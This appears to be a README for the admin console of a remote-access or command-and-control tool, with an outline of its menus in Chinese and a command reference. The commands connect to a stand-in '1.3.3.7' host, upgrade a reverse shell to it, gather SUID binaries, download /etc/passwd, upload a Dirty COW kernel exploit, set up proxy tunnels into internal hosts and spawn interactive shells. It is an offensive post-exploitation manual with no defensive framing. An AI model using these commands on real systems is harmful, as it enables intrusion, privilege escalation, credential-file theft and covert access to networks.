 ## 管理端

1. 认证
2. 获取服务端信息
	* 版本号
	* 当前监听的服务
	* 每个服务上线的机器
3. 进入主菜单
	* 服务器
		* 增删改查
	* 客户端
		* 删查
	* 选择客户端
4. 进入客户端菜单
	* 列信息
	* 文件操作
		* 上传，下载
	* 隧道操作
		* 增删查
	* 交互式 Shell

### 命令

```
./admin
```

```
>> help
>> connect
	connect --host 1.3.3.7 --port 7331
>> auth
	auth --username admin --password admin
>> run
	run --host 192.168.1.1 --port 13337
>> info
	info --hash d41d8cd98f00b204e9800998ecf8427e
>> list
	list
>> delete
	delete --hash d41d8cd98f00b204e9800998ecf8427e
>> select
	common
		>> info
		>> back
		>> gather
			gather --all
			gather --suid
		>> download
			download --src /etc/passwd --dst ./passwd
		>> upload
			upload --src ./dirtyc0w.c --dst /tmp/dirtyc0w.c
	rsh
		>> upgrade
			upgrade --host 1.3.3.7 --port 7331
		>> pty
	termite
		>> proxy
			proxy --create --type pull --remote-host 192.168.1.1 --remote-port 22 --local-port 1022
			proxy --create --type push --local-host 127.0.0.1 --local-port 1080 --remote-port 1090
			proxy --create --type dynamic --local-port 1090
			proxy --create --type internet --remote-port 1090
			proxy --delete --id 1
			proxy --list
		>> interact
			interact --spawn /bin/bash
			interact --spawn vim /etc/passwd
>> exit
```